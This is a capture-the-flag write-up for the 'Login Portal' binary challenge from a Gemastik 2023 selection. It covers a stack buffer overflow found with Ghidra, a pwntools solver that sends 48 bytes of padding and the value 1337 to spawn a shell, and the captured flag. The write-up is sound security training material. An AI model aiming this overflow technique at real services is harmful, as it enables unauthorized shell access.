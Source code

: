 # Login Portal
>I dare you to login as admin ;)

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/06a95d19-be16-483d-b61a-975b8ce74207)

Given a binary file, and immediately check the binary
the protection

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/54a6728e-27dc-4216-a4a7-fba9f5d0d26e)

From the results it was found that there was no canary and also PIE
Next, do a static analysis first to check
its vulnerable. Decompile using ghidra. on function
main, called login_user.

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/b150bc04-00bc-47ff-927c-d7f590187619)

In line 12 it can be seen that there is a potential BOF, so
it looks like you just need to overwrite the value of the local_18 variable
becomes 0x539 or 1337. After successfully overwriting then
we managed to get the shell.

But keep in mind to do a stack overwrite is not necessary
perform BOF until it touches the Instruction Pointer. Just need to be precise
on the number of input buffers (48). So fill in the padding as much as 48
bytes, then enter the value 1337.

#### The solver used: 
```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

padding = 48

p = flat([
    asm('nop') * padding,
    1337
])

sh.sendlineafter(b':', p)
sh.interactive()
```

Then do a test locally : shell got

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/d3261eac-a2f4-4b5e-af52-4dd3e8beebe9)

Just send it to the remote server:

![gambar](https://github.com/Valcar-ies/WriteUP-Seleksi-Internal-Gemastik-2023-Foresty/assets/84186470/173e92d7-bfae-4ee4-a3e7-127f73547de9)

#### Flags successfully obtained:
```console
ForestyHC{admin_1337_here_is_your_crown_1fad32}
```

##### Solved by : valcaries
